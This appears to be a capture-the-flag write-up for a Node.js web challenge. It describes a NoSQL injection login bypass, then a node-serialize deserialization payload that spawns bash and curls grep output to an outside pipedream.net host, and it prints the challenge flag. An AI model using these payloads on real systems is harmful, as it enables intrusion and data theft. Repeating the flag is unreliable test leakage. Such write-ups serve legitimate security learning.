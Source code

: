 # Web 04
## NoSQL
A nodejs application that first introduces a NoSQL injection in login page.
We can bypass authentication by using `username[$ne]=test&password[$ne]=test` in the POST data when logging in.<br>

## RCE
We continue to enumerate users until we find user with admin permissions.
This user was `itachi`. <br>
After logging in to this account we see new endpoint called `/checktoken`
This endpoint accepts base64 encoded data to it. Example content:
```
{"cookie":{"path":"/","_expires":null,"originalMaxAge":null,"httpOnly":true},"islogin":true,"isadmin":true,"username":"itachi","email":"itachi@whitehat.com","slogan":"Try Hard!!","country":"US"}
```
Since we had no source, we tried different options on how to proceed from here. The working solution was to try deserialization payload, which surprisingly worked.

The data that is passed to the endpoint now looks like this:
```
{"cookie":{"rce":"_$$ND_FUNC$$_function (){/* JS CODE HERE */}()"},"islogin":true,"isadmin":true,"username":"itachi","email":"itachi@whitehat.com","slogan":{"$ne":"Try Hard!!"},"country":{"toString":"XXXX"}}
```
After trying some javascript code we see that some functions are blacklisted, for example `exec` function.
This is not a big deal, as the `spawn` function is allowed. The final payload that was used for flag exfiltration is shown below:

```
{"cookie":{"rce":"_$$ND_FUNC$$_function (){\n \t throw require('child_process').spawn('bash', ['-c','curl https://enlo143u2fju.x.pipedream.net/$(grep -rain whitehat|base64 -w0)']);\n }()"},"islogin":true,"isadmin":true,"username":"itachi","email":"itachi@whitehat.com","slogan":{"$ne":"Try Hard!!"},"country":{"toString":"XXXX"}}
```

## Flag
`WhiteHat{Good_Boy_Nodejs_Unserialize}`
